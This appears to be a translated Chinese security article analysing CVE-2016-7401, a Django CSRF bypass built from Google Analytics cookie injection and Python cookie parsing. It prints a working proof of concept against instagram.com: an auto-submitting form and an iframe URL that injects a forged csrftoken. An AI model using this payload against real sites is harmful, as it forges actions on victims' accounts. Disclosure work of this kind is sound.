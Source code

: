 > 原文链接: https://www.anquanke.com//post/id/84638 


# 【技术分享】CVE-2016-7401-Django CSRF防御绕过漏洞分析


                                阅读量   
                                **217295**
                            
                        |
                        
                                                                                    



##### 译文声明

本文是翻译文章，文章原作者，文章来源：安全客
                                <br>原文地址：[https://hackerone.com/reports/26647](https://hackerone.com/reports/26647)

译文仅供参考，具体内容表达以及含义原文为准

[![](https://p0.ssl.qhimg.com/t0181ca6cf39f9b2b2b.jpg)](https://p0.ssl.qhimg.com/t0181ca6cf39f9b2b2b.jpg)

**前言**

****

Django于昨天修复了这个漏洞： [https://www.djangoproject.com/weblog/2016/sep/26/security-releases/](https://www.djangoproject.com/weblog/2016/sep/26/security-releases/)

其实去年就有类似的问题，报告给Twitter（ [https://hackerone.com/reports/14883](https://hackerone.com/reports/14883) ），漏洞是由以下几个部分组成的。

<br>



**0x01 由Google Analytics导致的Cookie注入漏洞**



Google Analytics会设置如下的Cookie来追踪用户：

```
__utmz=123456.123456789.11.2.utmcsr=[HOST]|utmccn=(referral)|utmcmd=referral|utmcct=[PATH]
```

比如：

```
__utmz=123456.123456789.11.2.utmcsr=blackfan.ru|utmccn=(referral)|utmcmd=referral|utmcct=/path/
```

也就是说，我们可以通过控制[PATH]位置来控制一部分Cookie，而且[PATH]位置并没有进行编码和过滤。这也是造成后面漏洞的导火索。

<br>

**0x02 Django的解析缺陷**

****

不同Web server对Cookie头有不同的解析方式。
<li>
通常浏览器发送的Cookie是这样：
</li>
<ul class="ul-list list-paddingleft-2" style="list-style-type: square">
<li>
<pre>`Cookie: param1=value1; param2=value2;`</pre>
</li>
很多Web server也接受以“逗号”为分隔符的Cookie头：
<li>
<pre>`Cookie: param1=value2, param2=value2`</pre>
</li>
<li>
<pre>`Cookie: param1=value2,param2=value2`</pre>
</li>
Python + Django却因为错误的正则，导致可以使用]作为分隔符：
<li>
<pre>`Cookie: param1=value1]param2=value2`</pre>
这个问题是Python原生Cookie库的问题，我们可以在命令行下测试一下：
</li>
```
&gt;&gt;&gt; import Cookie
&gt;&gt;&gt; C = Cookie.SimpleCookie()
&gt;&gt;&gt; C.load('__utmz=blah]csrftoken=x')
&gt;&gt;&gt; C
&lt;SimpleCookie: __utmz='blah'csrftoken='x'&gt;
```

可见，当`c.load('__utmz=blah]csrftoken=x')`后，cookie被错误地解析为两个，一个`Cookie[__utmz]=blah`，一个`csrftoken=x`。



**0x03 不同浏览器处理Cookie的特性**

除了Safari以外，所有浏览器都支持将一些特殊字符（空格、逗号或）设置为Cookie的值。

Chrome处理Cookie属性的数量有限。比如 

```
Set-Cookie: test=test; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=.google.com; domain=blah.blah.blah.google.com;
```

的domain将会被认为是.google.com而不是blah.blah.blah.google.com。



<br>

**0x04 注入TOKEN绕过CSRF检查**

利用上面3个特性，我们可以攻击具有如下条件的网站：

使用了 Google Analytics

使用了会错误解析Cookie的服务器（如Django）

使用了基于Cookie的CSRF防御方式（就是将Cookie中的Token和表单中的Token相比较，确保表单不是伪造的）

然后：

我们将Cookie中的Token设置为任意一个字符串，覆盖原有的Token

于是这个网站就可以绕过CSRF防御了

还有一个问题就是，`__utmz`这个Cookie时长是6个月不会刷新（也就没法写入新的）。解决方法是，你可以找一个同样使用了Google Analytics的子域名，然后借用0x03中说到的方法覆盖掉主域名的Cookie的domain即可。

其他浏览器，可以等到`__utmz`刷新的时候进行攻击。

<br>

**0x05 POC编写**

用instagram.com为例。

用谷歌的匿名模式打开instagram.com

登录instagram.com

点击链接（ [http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html](http://blackfan.ru/facebookbugbounty/nouysqaqfbskgobuqkknoitvyqmjgony_instagram.html) ），并等待一会

你已经成为 [http://instagram.com/black2fan](http://instagram.com/black2fan) 的粉丝了（成功刷粉）

链接代码如下：



```
&lt;form 
action="http://instagram.com/web/friendships/1312928755/follow/?ref=emptyfeed" 
id="csrf" 
method="POST"&gt;
      &lt;input type="hidden" name="csrfmiddlewaretoken" value="x" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
&lt;/form&gt;
&lt;script&gt;
      function xxx() `{`
        document.getElementById('csrf').submit();
      `}`
&lt;/script&gt;
&lt;iframe 
onload="xxx()" 
src="http://blackfan.ru/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/"/&gt;
```

这四步实际执行了下面的过程：

1.    用户登录instagram.com

攻击者让用户登录了它以前没有登录过的blog.instagram.com：

```
http://blog.instagram.com/r/,]csrftoken=x,;domain=.instagram.com;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;path=/;?r=http://blog.instagram.com/
```

2.    Cookie的domain被覆盖为.instagram.com：

```
_utmz=90378079.1401435337.1.1.utmcsr=blog.instagram.com|utmccn=(referral)|utmcmd=referral|utmcct=/r/,]csrftoken=x,
```

3.    此时，服务端会将这个Cookie解析为csrftoken=x

4.    然后提交CSRF Token=x的表单即可。

**参考文档：**
<li>
[https://docs.python.org/3/library/http.cookies.html](https://docs.python.org/3/library/http.cookies.html)
</li>
<li>
[http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432](http://hg.python.org/cpython/file/3.4/Lib/http/cookies.py#l432)
</li>
<li>
[http://tools.ietf.org/html/rfc2109](http://tools.ietf.org/html/rfc2109)
</li>
<li>
[http://tools.ietf.org/html/rfc2068](http://tools.ietf.org/html/rfc2068)

</li>

